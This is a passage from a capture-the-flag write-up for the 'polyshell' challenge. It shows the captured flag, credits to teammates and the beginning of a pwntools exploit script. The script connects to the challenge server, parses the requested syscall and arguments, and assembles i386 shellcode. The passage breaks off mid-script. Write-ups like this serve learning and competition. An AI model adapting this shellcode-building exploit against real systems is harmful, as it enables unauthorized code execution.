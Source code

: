> I got the flag 4 minutes after the CTF had ended... :(

flag: `{Its_shellz_all_the_w4y_d0wn}`

## Credits

* Thanks Ariana for finding the x86 / x86-64 jump trick
* Thanks Creastery for mentioning the xarch_shellcode repo and the MIPS branching weirdness
* Thanks all my teammates for the mental support

## Full exploit

```python
from pwn import *

context.log_level = 'debug'

sh = remote('polyshell-01.play.midnightsunctf.se', 30000)

data = sh.recvuntil('shellcode: ').split('\n')
sys_num = int(data[-7].split(': ')[-1])
print sys_num

arg1 = int(data[-6].split(': ')[-1])
print arg1
arg2 = data[-5].split('"')[-2]
print arg2

while len(arg2) != 6:
  sh.close()
  sh = remote('polyshell-01.play.midnightsunctf.se', 30000)

  data = sh.recvuntil('shellcode: ').split('\n')
  sys_num = int(data[-7].split(': ')[-1])
  print sys_num

  arg1 = int(data[-6].split(': ')[-1])
  print arg1
  arg2 = data[-5].split('"')[-2]
  print arg2

def pack_str(str, length=4):
  r = enhex(str)
  f = ''
  for i in range(len(r), 0, -2):
    f += r[i-2:i]
  return f.rjust(length*2, '0')

def get_i386(sys_num, arg1, arg2):
  p1 = '0x'+pack_str(arg2[:4])
  p2 = '0x'+pack_str(arg2[4:])

  payload = asm('''
    call start
  start:
    pop eax  
    mov ebx, {p1}
    add eax, 0x5000
    mov ecx, eax
    mov [eax], ebx

    mov ebx, {p2}
    mov [eax+0x4], ebx

```